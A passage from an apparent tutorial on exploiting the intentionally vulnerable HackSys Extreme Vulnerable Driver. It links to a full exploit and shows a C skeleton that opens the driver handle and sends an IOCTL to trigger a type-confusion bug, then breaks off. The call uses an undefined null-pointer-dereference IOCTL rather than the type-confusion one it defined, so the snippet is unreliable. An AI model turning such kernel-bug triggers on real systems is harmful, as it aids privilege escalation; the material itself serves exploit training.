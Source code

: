 The full exploit for this vulnerability can be found [here](https://github.com/sam-b/HackSysDriverExploits/tree/master/HackSysIntOverflowExploit).

## Type Confusion
Once again we start with a basic skeleton which will send the target IOCTL and nothing else.

<pre>
#include "stdafx.h"
#include &lt;stdio.h>
#include &lt;Windows.h>
#include &lt;winioctl.h>
#include &lt;TlHelp32.h>

//Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_TYPE_CONFUSION              CTL_CODE(FILE_DEVICE_UNKNOWN, 0x808, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(void)
{
	DWORD lpBytesReturned;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";

	printf("Getting the device handle\r\n");
	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.

	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);

	printf("Triggering bug\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		NULL,
		0,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap
